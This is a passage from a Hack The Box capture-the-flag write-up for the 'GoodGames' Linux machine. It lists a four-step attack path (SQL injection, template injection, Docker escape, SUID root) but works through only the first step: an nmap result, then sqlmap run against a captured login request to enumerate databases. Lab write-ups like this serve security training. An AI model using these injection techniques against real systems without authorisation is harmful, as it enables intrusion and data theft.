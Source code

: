 # Target
| Category          | Details                                              |
|-------------------|------------------------------------------------------|
| 📝 **Name**       | [GoodGames](https://app.hackthebox.com/machines/446) |  
| 🏷 **Type**       | HTB Machine                                          |
| 🖥 **OS**         | Linux                                                |
| 🎯 **Difficulty** | Easy                                                 |
| 📁 **Tags**       | python, Flask, SQLi, SSTI, docker                    |

# Scan
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
```

# Attack path
1. [Discover admin credentials by exploiting SQLi in web application login panel](#discover-admin-credentials-by-exploiting-sqli-in-web-application-login-panel)
2. [Gain initial foothold by exploiting SSTI in `internal-administration` web application](#gain-initial-foothold-by-exploiting-ssti-in-internal-administration-web-application)
3. [Escape from Docker container to host using SSH with generated private key](#escape-from-docker-container-to-host-using-ssh-with-generated-private-key)
4. [Escalate to `root` user using root shell with SUID flag set from within Docker container](#escalate-to-root-user-using-root-shell-with-suid-flag-set-from-within-docker-container)

### Discover admin credentials by exploiting SQLi in web application login panel

#### Add `goodgames.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB GoodGames]
└─$ echo "$TARGET goodgames.htb" | sudo tee -a /etc/hosts
10.129.82.210 goodgames.htb
```

#### List databases using SQLi in web application login panel
Request obtained with Burp.
```
┌──(magicrc㉿perun)-[~/attack/HTB GoodGames]
└─$ sqlmap -r login.http --batch --level 3 --dbs
<SNIP>
available databases [2]:
[*] information_schema
[*] main
```
